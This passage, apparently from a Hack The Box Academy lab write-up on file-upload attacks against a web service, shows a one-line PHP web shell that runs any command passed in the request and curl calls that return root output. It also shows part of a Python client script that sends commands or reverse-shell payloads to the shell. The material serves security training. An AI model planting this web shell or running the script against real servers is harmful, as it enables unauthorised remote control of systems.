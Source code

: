 ```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ vim backdoor.php

<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
```

![Burp Suite - Upload Attempt](./assets/screenshots/web_service_and_api_attacks_file_upload_burpsuite_upload_attempt.png)

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl http://10.129.202.133:3001/uploads/backdoor.php?cmd=id

uid=0(root) gid=0(root) groups=0(root)

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl http://10.129.202.133:3001/uploads/backdoor.php?cmd=hostname

nix01-websvc
```

```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
```